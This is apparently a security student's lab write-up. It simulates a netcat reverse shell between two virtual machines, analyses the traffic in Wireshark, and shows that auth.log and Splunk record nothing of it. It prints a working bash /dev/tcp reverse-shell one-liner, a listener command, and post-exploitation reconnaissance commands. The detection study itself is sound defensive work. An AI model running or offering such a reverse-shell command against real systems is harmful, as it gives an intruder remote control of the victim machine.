






# Reverse Shell Detection Lab

## Objective
Simulate a reverse shell attack between two virtual machines, capture and analyze the resulting network traffic, and demonstrate why host-based logs (auth.log) fail to detect this technique — proving that network traffic analysis is essential for reverse shell detection in a SOC environment.

## Tools Used
- Kali Linux
- Netcat (nc)
- tcpdump / Wireshark
- Splunk Enterprise

## Skills Demonstrated
- Reverse Shell Execution & Analysis
- Packet Capture on Multiple Interfaces
- TCP Stream Reconstruction
- Host-Based Log Analysis (auth.log)
- SIEM Correlation using Splunk
- Detection Gap Identification

## Environment
- Attacker: Kali Linux VM (VirtualBox) — 192.168.56.103
- Victim: Kali Linux VM running OpenSSH + Splunk Enterprise — 192.168.56.104
- Network: 192.168.56.0/24 (Host-Only Adapter, eth2)
- Source log: /var/log/auth.log, monitored by Splunk as sourcetype linux_secure

## Step 1 — Start Netcat Listener on Attacker
Started a listener on the attacker VM to catch the incoming reverse shell:
\`\`\`bash
nc -lvnp 4444
\`\`\`
Result: Netcat began listening on all interfaces on TCP port 4444, waiting for the victim to initiate an outbound connection.

## Step 2 — Trigger Reverse Shell from Victim
Executed the reverse shell payload on the victim VM using bash's built-in /dev/tcp feature:
\`\`\`bash
bash -i >& /dev/tcp/192.168.56.103/4444 0>&1
\`\`\`
Result: The victim opened an outbound TCP connection to the attacker on port 4444, giving the attacker a fully interactive bash shell. Executed reconnaissance commands (whoami, id, hostname, uname -a, cat /etc/passwd) to generate traffic and simulate post-exploitation activity.

## Step 3 — Capture Attack Traffic on Victim
Started a fresh packet capture on the victim while the reverse shell was active:
\`\`\`bash
sudo tcpdump -i any port 4444 -w /tmp/revshell.pcap
\`\`\`
Note: Initial attempts used -i eth1, but the Host-Only network was actually on eth2. Using -i any ensured traffic was captured regardless of interface, producing a valid PCAP file (previous captures resulted in an empty 24-byte file due to interface mismatch).

## Step 4 — Analyze Traffic in Wireshark
Applied the filter:
\`\`\`
tcp.port == 4444
\`\`\`
Wireshark showed a sustained bi-directional TCP conversation between 192.168.56.104 (victim) and 192.168.56.103 (attacker) with numerous [PSH, ACK] packets — the signature of interactive shell traffic being transmitted in real time.

## Step 5 — Follow TCP Stream
Right-clicked a packet → Follow → TCP Stream. The entire reverse shell session was reconstructed in plaintext, revealing:
- Every command typed by the attacker (whoami, id, cat /etc/passwd)
- Every response returned from the victim
- Full user context (uid=1000(kali) gid=1000(kali) groups=1000(kali),4(adm),20(dialout),24(cdrom)...)

This confirmed that reverse shell traffic over unencrypted TCP is fully readable to anyone with network visibility.

## Step 6 — Check auth.log for Detection Gap
Ran a grep against the victim's authentication log:
\`\`\`bash
grep -a "4444\|reverse\|bash" /var/log/auth.log
\`\`\`
Result: Only sudo tcpdump commands and one useradd event appeared. **Zero entries related to the reverse shell itself** — no login, no session start, no bash execution record. This confirmed that the reverse shell technique completely bypasses standard Linux authentication logging.

## Step 7 — Correlate in Splunk
Searched Splunk (with /var/log/auth.log ingested as sourcetype=linux_secure) using:
\`\`\`
index=* 4444
\`\`\`
Splunk returned 4 events — all of them the analyst's own sudo tcpdump commands. **No events tied to the actual reverse shell execution or the network connection itself**, matching the host-log detection gap and confirming that host-based SIEM ingestion alone is not enough to detect this attack.

## Screenshots

Attacker VM (rockzz) running nc -lvnp 4444, listening on all interfaces on TCP port 4444 waiting for an inbound reverse shell connection

Listener received connection from 192.168.56.104:33412 — attacker executed whoami, id, hostname, uname -a, and cat /etc/passwd remotely, with the victim returning full user context and system info (Linux kali 6.18.12+kali-amd64)

Filtered packet view (tcp.port == 4444) showing sustained bi-directional TCP conversation between 192.168.56.104 and 192.168.56.103, with SYN/ACK handshake followed by continuous PSH/ACK packets — the signature of live interactive shell traffic

Follow TCP Stream reconstructing the full reverse shell session in plaintext — attacker prompts, whoami/id commands, and complete group membership output visible with no decryption required (7 client packets, 3 server packets, 828 bytes total)

grep -a "4444\|reverse\|bash" /var/log/auth.log returning only sudo tcpdump commands and a useradd entry — zero evidence of the reverse shell session, its network connection, or the bash -i execution

Splunk search index=* 4444 returning 4 events over All Time — all of them sudo tcpdump commands from the analyst's own capture activity, confirming the host-log detection gap propagates through the SIEM layer

## What I Learned
- Why reverse shells are a preferred attacker technique: outbound connections bypass most firewall rules, and the attack leaves no trace in authentication logs
- That /dev/tcp/ in bash creates a network socket without invoking SSH, sudo, or PAM — which is exactly why auth.log never records the session
- How to reconstruct an entire attacker session from raw packets using Wireshark's Follow TCP Stream, provided the traffic is unencrypted
- Why interface selection matters when capturing traffic: using the wrong interface (eth1 instead of eth2) produced an empty 24-byte PCAP file — -i any is a safer default in lab environments
- The core SOC insight from this lab: **host logs and SIEMs that ingest only host logs will miss reverse shells entirely.** Detection requires network-layer telemetry (Zeek, Sysmon for Linux, firewall flow logs, or full packet capture) fed into the SIEM alongside host logs
- Why SOC alerting must include rules for outbound connections on uncommon ports (4444, 9001, etc.), long-lived low-volume TCP sessions (beaconing), and the /dev/tcp/ command signature in process execution logs
  
